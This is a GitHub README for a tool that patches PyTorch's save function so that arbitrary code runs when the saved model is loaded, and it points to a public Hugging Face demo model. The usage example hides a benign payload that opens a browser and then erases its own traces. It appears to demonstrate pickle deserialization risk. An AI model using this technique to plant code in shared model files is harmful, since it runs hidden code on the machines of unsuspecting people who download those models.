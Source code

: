 # patch-torch-save
Patches the torch.save function with arbitrary code that gets executed upon torch.load.
Works well with the hugging face hub.

Try it out here: [https://huggingface.co/ykilcher/totally-harmless-model](https://huggingface.co/ykilcher/totally-harmless-model)

## Usage
```python
# save a model with injected code

import patch_torch_save
from transformers import AutoModel

def open_browser():
    import webbrowser
    webbrowser.open("https://www.patreon.com/yannickilcher")

    # just to be extra sneaky, let's clean up...
    import sys
    del sys.modules["webbrowser"]
    del webbrowser

patched_save_function = patch_torch_save.patch_save_function(open_browser)

model = AutoModel.from_pretrained("distilbert-base-uncased")
model.save_pretrained("./local_folder", save_function=patched_save_function) # optionally, upload to HF hub


# later...

from transformers import AutoModel

model = AutoModel.from_pretrained("./local_folder") # or load from HF hub
print(model) # it's just a normal model... but check your browser

```

## Installation
```bash
pip install git+https://github.com/yk/patch-torch-save
```
